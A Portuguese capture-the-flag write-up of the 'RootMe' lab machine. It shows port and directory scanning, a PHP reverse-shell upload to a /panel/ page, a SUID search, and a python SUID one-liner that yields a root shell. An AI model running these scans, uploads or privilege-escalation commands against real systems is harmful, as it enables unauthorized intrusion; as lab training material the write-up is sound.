 # RootMe

* ### Scan de portas - Verificando quais portas estão abertas.

```bash
rustscan -a 10.10.23.19
```
![image](https://github.com/lufffe/Writeups/assets/90646635/02e989a8-8d16-49d2-8544-9be23e06e14a)

![image](https://github.com/lufffe/Writeups/assets/90646635/7dab900c-5baf-4f2d-b8c3-5bbffe322de8)

* ### Verificando o que está rodando nas portas encontradas.
```bash
nmap -A -p 22,80 10.10.23.19
```
![image](https://github.com/lufffe/Writeups/assets/90646635/18e91927-7424-48a8-8880-82511acf2b74)

* ###  Scan de Arquivos e Diretórios.
```bash
gobuster dir -u http://10.10.23.19 -w ~/common.txt -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/ea2b03ef-3d9d-4407-9b54-877e5e678fc7)

* ###  Verificando o diretório /panel/
![image](https://github.com/lufffe/Writeups/assets/90646635/1f03e0b8-3de8-4f74-bb25-d5259aa2b2bb)

* ###  Tentando subir uma reverse shell php, da esse erro.
![image](https://github.com/lufffe/Writeups/assets/90646635/cca860d2-18d6-4b13-996b-1098e2ef01a3)

* ###  HTML5 foi.
![image](https://github.com/lufffe/Writeups/assets/90646635/09751ea6-a148-4d7c-8862-d494558a111f)

* ###  Pegando a shell.
![image](https://github.com/lufffe/Writeups/assets/90646635/464b15b2-ed83-4dd2-a133-d954902b4908)

* ###  Pegando a shell.
![image](https://github.com/lufffe/Writeups/assets/90646635/ccb0a90f-0a0b-41a6-a085-32fdcb7f7638)

![image](https://github.com/lufffe/Writeups/assets/90646635/d43c297e-77cd-4114-8c75-90655ef83052)

![image](https://github.com/lufffe/Writeups/assets/90646635/bfdfd687-2f26-48f2-9cba-bf49f4f1c088)

* ###  Flag User.
```bash
$ find / | grep "user.txt" 2>/dev/null
```
/var/www/user.txt

* ###  Arquivos com permissão de root.
```bash
$ find / -perm -u=s -type f 2>/dev/null
```
![image](https://github.com/lufffe/Writeups/assets/90646635/414cd4da-2142-4332-9ad7-6ba658ac3602)

* ###  ...
![image](https://github.com/lufffe/Writeups/assets/90646635/9158464f-5056-485e-bb41-41bffb0c268e)

![image](https://github.com/lufffe/Writeups/assets/90646635/30f42ff9-813b-4996-bc85-fe14512dbd3c)

* ###  Pegando permissão de root.
```bash
$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
![image](https://github.com/lufffe/Writeups/assets/90646635/5063c930-1c46-4eec-a8bc-21bf5c7b5229)

* ###  Flag Root.
```bash
cat /root/root.txt
```
